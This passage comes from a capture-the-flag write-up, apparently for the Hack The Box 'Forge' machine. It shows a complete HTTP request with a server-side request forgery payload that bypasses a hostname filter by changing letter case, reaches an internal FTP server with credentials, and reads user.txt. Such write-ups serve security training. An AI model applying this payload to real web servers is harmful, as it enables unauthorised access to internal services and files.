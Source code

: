 \chapter{Foothold}
So next up the path is quite clear. We can access the internal \texttt{ftp} service, which was filtered in the nmap scan using the vulnerability in the main web application.

\section{Exploit path}

\begin{wulisting}[caption=POST request]
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: http://forge.htb
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1

§BL[url=http://Admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Admin.Forge.htb&remote=1]BL§
\end{wulisting}

You will receive an url where you can see the \enquote{uploaded image}. This url will reveal the information we requested.

There you can see the content of the internal bound ftp server:

\begin{wulisting}[caption=server reply]
HTTP/1.1 200 OK
Date: Wed, 22 Sep 2021 10:17:13 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=22Yb2ccss7ZHqWsL5mT7
Content-Length: 126
Last-Modified: Wed, 22 Sep 2021 10:17:03 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Sep 21 10:27 user.txt
\end{wulisting}

\section{Fetching user.txt}

This way we can also read the user.txt file directly requesting the url \url{http://Admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Admin.Forge.htb/user.txt}.

